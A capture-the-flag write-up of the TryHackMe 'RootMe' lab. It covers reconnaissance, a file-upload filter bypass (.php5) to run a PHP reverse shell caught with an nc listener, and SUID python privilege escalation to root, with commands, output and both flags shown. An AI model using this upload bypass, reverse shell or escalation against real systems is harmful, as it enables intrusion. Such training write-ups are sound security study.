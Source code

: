 ```yaml
---
description: https://tryhackme.com/room/rrootme
---
```


# RootMe

## Reconnaissance

```
(kali㉿kali)-[~/Desktop] $ sudo nmap -sV 10.10.192.126 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-21 23:16 EDT Nmap scan report for 10.10.192.126 
Host is up (2.4s latency). 
Not shown: 998 closed tcp ports (reset) 
PORT STATE SERVICE VERSION 
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see **port 80** is open, so we can try to enumerate some web directories using gobuster.

<pre><code>(kali㉿kali)-[~/Desktop] $ gobuster dir -u http://10.10.192.126 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
<strong>===============================================================
</strong>Gobuster v3.5
by OJ Reeves (@TheColonial) &#x26; Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.126
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/21 23:25:23 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.192.126/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.192.126/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.192.126/js/]
/panel                (Status: 200) [Size: ???] [--> http://10.10.192.126/panel/] &#x3C;- Looks suspicious
</code></pre>

## Getting a Shell

Accessing the /panel directory of the machine's webserver leads us to a file upload page.

As the devious person I am, I tried to upload pentestmonkey's php reverse shell script to listen on port 4444 but this server has an upload filtering for .php files.&#x20;

I managed to bypass this filter by renaming my reverse shell file to a .php5 extension. After the upload was a success, the page even had a button to directly run my recently uploaded script!

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.18.41.182] from (UNKNOWN) [10.10.192.126] 36120
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:38:01 up 23 min,  0 users,  load average: 0.00, 0.05, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ ls -la
ls -la
total 2097256
drwxr-xr-x  24 root root       4096 Aug  4  2020 .
drwxr-xr-x  24 root root       4096 Aug  4  2020 ..
drwxr-xr-x   2 root root       4096 Aug  4  2020 bin
drwxr-xr-x   3 root root       4096 Aug  4  2020 boot
drwxr-xr-x   2 root root       4096 Aug  4  2020 cdrom
drwxr-xr-x  17 root root       3700 Jun 22 03:15 dev
drwxr-xr-x  96 root root       4096 Aug  4  2020 etc
drwxr-xr-x   4 root root       4096 Aug  4  2020 home
lrwxrwxrwx   1 root root         34 Aug  4  2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx   1 root root         34 Aug  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x  22 root root       4096 Aug  4  2020 lib
drwxr-xr-x   2 root root       4096 Aug  4  2020 lib64
drwx------   2 root root      16384 Aug  4  2020 lost+found
drwxr-xr-x   2 root root       4096 Feb  3  2020 media
drwxr-xr-x   2 root root       4096 Feb  3  2020 mnt
drwxr-xr-x   2 root root       4096 Feb  3  2020 opt
dr-xr-xr-x 107 root root          0 Jun 22 03:14 proc
drwx------   6 root root       4096 Aug  4  2020 root
drwxr-xr-x  26 root root        860 Jun 22 03:20 run
drwxr-xr-x   2 root root      12288 Aug  4  2020 sbin
drwxr-xr-x   4 root root       4096 Aug  4  2020 snap
drwxr-xr-x   2 root root       4096 Feb  3  2020 srv
-rw-------   1 root root 2147483648 Aug  4  2020 swap.img
dr-xr-xr-x  13 root root          0 Jun 22 03:14 sys
drwxrwxrwt   2 root root       4096 Jun 22 03:37 tmp
drwxr-xr-x  10 root root       4096 Feb  3  2020 usr
drwxr-xr-x  14 root root       4096 Aug  4  2020 var
lrwxrwxrwx   1 root root         31 Aug  4  2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx   1 root root         31 Aug  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic

```

My usual routine after getting a web shell is spawning an interactive TTY using python.

After getting my interactive TTY, I tried to list some information about the directories & files within the target machine. We were tasked to look for a flag within our current powers, and so we looked.&#x20;

```
$ ls
ls
html  user.txt
$ cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
```

## Privilege Escalation

One common angle of escalating privileges in Linux machines is looking for exectuables with the SUID bit set.

```
$ find / -user root -perm /4000
find / -user root -perm /4000
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount

```

I noticed that there is a weird entry of `/usr/bin/python`, to which I used a technique from GTFOBins that leverages the python binary to gain root privileges.

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

```
# ls     
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n

Done and dusted!
```
